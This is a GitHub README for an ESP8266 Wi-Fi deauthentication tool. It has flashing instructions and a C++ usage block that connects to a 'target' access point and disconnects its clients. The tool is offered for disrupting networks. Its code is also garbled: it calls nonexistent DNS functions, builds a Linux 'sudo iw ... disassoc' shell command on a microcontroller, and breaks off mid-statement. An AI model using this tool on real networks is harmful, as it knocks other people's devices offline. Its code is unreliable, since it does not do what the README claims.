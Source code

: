 
# ESP8266-Deauther 


ESP8266-Deauther is built for the ESP8266 microcontroller and programmed using the Arduino IDE. It includes functions for connecting to a wireless network, starting a server, and deauthenticating clients. Additionally, it creates a .bin file for storing the deauther script.
## Installation

Install my-project 

```bash
Download the "esp8266_deauther_davy_NODEMCU" .bin file 
```
```bash
Connect the esp8266 to your pc 
```

```bash
 Go to "esp.huhn.me" and boot up the downloaded bin file 
 ```



## Sceenshots
![ESP8266-Deauther Main Menu](https://i.postimg.cc/L8156tzV/Screenshot-2024-05-14-111807.png)


![ESP8266-Deauther Main Menu](https://i.postimg.cc/nzyZW5Wb/Screenshot-2024-05-14-114259.png)


![ESP8266-Deauther Main Menu](https://i.postimg.cc/nzyZW5Wb/Screenshot-2024-05-14-114259.png)


![ESP8266-Deauther Main Menu](https://i.postimg.cc/xTWHRT5t/Screenshot-2024-05-14-114332.png)


![ESP8266-Deauther Main Menu](https://i.postimg.cc/266VYPT1/Screenshot-2024-05-14-114348.png)


![ESP8266-Deauther Main Menu](https://i.postimg.cc/vHxKZhmT/Screenshot-2024-05-14-114955.png)


![ESP8266-Deauther Main Menu](https://i.postimg.cc/rFYtQGG1/Screenshot-2024-05-14-115126.png)

![ESP8266-Deauther Main Menu](https://i.postimg.cc/d3VjTsvw/Screenshot-2024-05-14-115139.png)

![ESP8266-Deauther Main Menu](https://i.postimg.cc/WbhYznXC/Screenshot-2024-05-11-221539.png)




## Usage/Examples


```C++ {
const char *ssid = "your_AP_SSID";
const char *password = "your_AP_PASSWORD";

const char *deauth_ssid = "target_AP_SSID";
const char *deauth_password = "target_AP_PASSWORD";

const char *deauth_file = "/deauther.bin";

WiFiServer server(80);
MDNSResponder mdns;

void setup() {
  Serial.begin(115200);
  delay(10);

  // Connect to WiFi network
  Serial.println();
  Serial.println();
  Serial.print("Connecting to ");
  Serial.println(ssid);

  WiFi.begin(ssid, password);

  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
    Serial.print(".");
  }
  Serial.println("");
  Serial.println("WiFi connected");
  Serial.println("IP address: ");
  Serial.println(WiFi.localIP());

  // Start the server
  server.begin();
  Serial.println("Server started");

  // Set up MDNS
  if (!mdns.begin("esp8266", WiFi.localIP())) {
    Serial.println("Error setting up MDNS responder!");
    while (1) {
      delay(1000);
    }
  }
  Serial.println("mDNS responder started");

  // Create deauther.bin file
  File deauth_file = SPIFFS.open(deauth_file, FILE_WRITE);
  if (!deauth_file) {
    Serial.println("Error creating deauther.bin file!");
    while (1) {
      delay(1000);
    }
  }
  deauth_file.close();

}

void loop() {
  // Handle client connections
  WiFiClient client = server.available();
  if (!client) {
    return;
  }

  // Read the request
  String request = client.readStringUntil('\r');
  client.flush();

  // Parse the request
  int idx = request.indexOf('/');
  request = request.substring(idx + 1);

  // Deauthenticate clients
  if (request == "deauth") {
    // Connect to target AP
    WiFi.begin(deauth_ssid, deauth_password);

    while (WiFi.status() != WL_CONNECTED) {
      delay(500);
      Serial.print(".");
    }

    // Get a list of clients
    IPAddress apIP = WiFi.softAPIP();
    int port = 80;
    String host = "esp8266.local";
    Serial.print("Request DHCP hostnames...");
    int n = DNS.begin(host, WiFi.softAPIP());
    Serial.print(n);
    Serial.println(" hostnames:");
    String hostname;
    for (int i = 0; i < n; ++i) {
      hostname = DNS.getHostname(i);
      Serial.println(i + ": " + hostname);
    }
    DNS.end();

    // Deauthenticate clients
    for (int i = 0; i < n; ++i) {
      String cmd = "sudo iw dev wlan0 disassoc " + String(hostname);
      Serial.println
     } ```

